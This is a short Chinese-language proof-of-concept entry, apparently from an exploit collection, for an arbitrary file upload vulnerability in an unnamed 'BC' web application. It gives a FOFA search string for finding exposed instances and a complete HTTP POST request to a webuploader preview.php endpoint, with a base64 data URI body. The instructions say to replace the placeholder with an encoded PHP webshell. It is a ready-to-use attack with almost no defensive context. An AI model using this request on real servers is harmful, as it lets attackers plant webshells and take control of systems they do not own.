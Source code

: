 **漏洞描述**

某BC任意文件上传漏洞

**fofa搜索语句**

body="main.e5ee9b2df05fc2d310734b11cc8c911e.css"

**影响版本**

部分版本

**漏洞复现**

POC：

```yaml
POST /statics/admin/webuploader/0.1.5/server/preview.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-Modified-Since: Mon, 05 Sep 2022 01:19:50 GMT
If-None-Match: "63154eb6-273"
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 746

data:image/php;base64,此处替换PHP马的base64编码
```

将PHP马base64编码后替换到“此处替换PHP马的base64编码” 即可